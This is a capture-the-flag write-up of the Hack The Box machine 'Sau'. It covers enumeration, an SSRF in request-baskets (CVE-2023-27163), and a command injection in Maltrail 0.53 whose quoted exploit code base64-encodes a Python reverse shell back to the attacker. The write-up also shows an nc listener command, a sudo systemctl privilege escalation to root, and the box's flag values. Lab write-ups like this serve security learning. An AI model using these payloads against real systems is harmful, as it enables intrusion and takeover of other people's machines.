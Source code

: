 ```yaml
---
title: HTB 3 - Sau
tag: htb
category: cyber
---
```


## Comments

This box is straightforward but during my challenge I spent way too long trying to troubleshooting a trivial mistake. I kept trying to get a reverse shell from the target to local but it just didn't work.

I tried all types of revshell methods, tested locally (worked), different encodings, etc. And after hours of searching, I realised that I had left my ufw enabled meaning that all incoming traffic was blocked, even if my netcat was listening for a reverse shell.

Lesson learnt. Check firewall connections!!!

Other than that, I was able to complete this box without referring to a walkthrough. I enumerated properly and found the right exploits by looking for abnormal processes/ functions running in the box. This box taught me that understanding the underlying function/ source code of a machine is key to understand its weaknesses.


## Walkthrough

Target IP: 

    10.10.11.224

### Enumeration

First, nmap scan. While waiting, we also check `10.10.11.224` in the browser but it doesnt load.

Nmap returns ports 22, 80, and 55555 (unknown service). 

    PORT      STATE    SERVICE REASON      VERSION
    22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    80/tcp    filtered http    no-response
    55555/tcp open     unknown syn-ack
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     X-Content-Type-Options: nosniff
    |     Date: Sun, 08 Oct 2023 04:31:49 GMT
    |     Content-Length: 75
    |     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
    |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Sun, 08 Oct 2023 04:31:20 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Allow: GET, OPTIONS
    |     Date: Sun, 08 Oct 2023 04:31:21 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

Immediately, we can see that 55555 is actually a HTTP port because it is returning HTTP responses to our scan.

Notice that we also have a HTTP port 80 that is inaccessible because it is filtering connections. That's why our browser couldn't connect

Surprisingly, one of the scans which points to port 55555's `/web` endpoint received a `302 Found`:

    |   GetRequest: 
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Sun, 08 Oct 2023 04:31:20 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.

Trying `http://10.10.11.224:55555/web` in the browser returns a request-baskets v1.2.1 form submission page.

At this point, it's good practice to read up on the service:

[request-baskets](https://github.com/darklynx/request-baskets)
> Request Baskets is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.

### Foothold

Version 1.2.1 already has a vulnerability in its HTTP forwarding function that can be exploited to conduct SSRF (Server-Side Request Forgery) attacks. This means that an attacker can trigger commands in the server as if they were executed internally (hence server-side).

There is a [PoC](https://github.com/entr0pie/CVE-2023-27163) and a detailed [tutorial](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7) on this.

So how does request forwarding lead to SSRF?

> "Request-baskets is a web application built to collect and register requests on a specific route, so called basket. When creating it, the user can specify another server to forward the request. The issue here is that the user can specify unintended services, such as network-closed applications. <br><br> For example: let's suppose that the server hosts Request-baskets (port 55555) and a Flask web server on port 8000. The Flask is also configured to only interact with localhost. By creating a basket which forwards to http://localhost:8000, the attacker can access the before restricted Flask web server."

How do we implement this?

1. Create a new basket that we can send our requests to.
2. Tell this basket to forward all requests to the server-side web server on port 80 (http://127.0.0.1:80 - this is same as localhost:80). This allows us to get past the filtering applied to port 80.

Run the PoC `.sh` file and specify `[request-basket-URL]` and `[forward-URL]`:

    sudo ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80

    > Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

    > Creating the "rgvakm" proxy basket...
    > Basket created!
    > Accessing http://10.10.11.224:55555/rgvakm now makes the server request to http://127.0.0.1:80.
    > Authorization: l_nywtHy0kaGp8qqfc7mGv7Bw8UiIrLDQ0Ye4xpYgIcq

Now if we access `http://10.10.11.224:55555/rgvakm` we get the response from `http://127.0.0.1:80` and can see that the port 80 service is actually running a Maltrail (v0.53) web app.

### Remote Code Execution

A quick search shows that this version of Maltrail is vulnerable to RCE via OS Command Injection. Meaning, we can get a reverse shell by injecting a command that gets directly executed by the CLI.

We can use this [PoC](https://github.com/spookier/Maltrail-v0.53-Exploit#weaponized-exploit-for-maltrail-v053-unauthenticated-os-command-injection-rce ) for creating the payload.

The reason this exploit works is that Maltrail calls a function that executes a shell command that takes the user-input `username` directly from the login page and uses it without sanitation.

Hence, we can craft a `username` that includes `;` to break the shell commands and insert out own.

The code in the exploit script itself is actually very straightforward. 

    def curl_cmd(my_ip, my_port, target_url):
        payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
        encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
        command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
        os.system(command)


1. It first constructs a standard Python3 reverse shell command. We can check out [revshell](https://revshells.com) for similar scripts.
2. Then base64 encode it 
3. Using `curl`, POST to the Maltrail login URL with username containing the full payload. 


!! Important !!

Notice that the Maltrail exploit requires the POST to be sent to the `/login` endpoint. This means our basket needs to point to `http://127.0.0.1:80/login` instead.

We can call the request-basket exploit `.sh` again to create a new basket that does this.

    sudo ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login

    ...
    > Accessing http://10.10.11.224:55555/mdgwtj now makes the server request to http://127.0.0.1:80/login.

We now have our target URL `http://10.10.11.224:55555/mdgwtj`. 

Once, we set up a nc listener 

    sudo nc -lvnp 1234

We can start the reverse shell:

    python3 exploit.py [LOCAL_IP] 1234 http://10.10.11.224:55555/mdgwtj


*At this point, I was actually stuck because I didn't realise my ufw was enabled and blocking all incoming connections. The issue was exacerbated by the machine being super laggy at the time and my requests kept getting timed out.*

Upon getting the reverse shell, user.txt = 3ff7439b35b02e60070d4e518f195739

### Privilege Escalation

Similar to previous boxes, the first thing I checked was sudo root privileges on the current user.

    sudo -l

    >> User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

Lukcy for us, `puma` can run the binary `systemctl` to show `status` on a specific service `trail.service`.

According to [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/), we simply start systemctl exactly as shown. And then continue to open a shell within systemctl.

    /usr/bin/systemctl status trail.service

    !sh

    >>
    $ (root shell opened)

We are now root. root.txt = e866331864c2113685cef4b22892feb8

*That's all for tonight, ciao.*


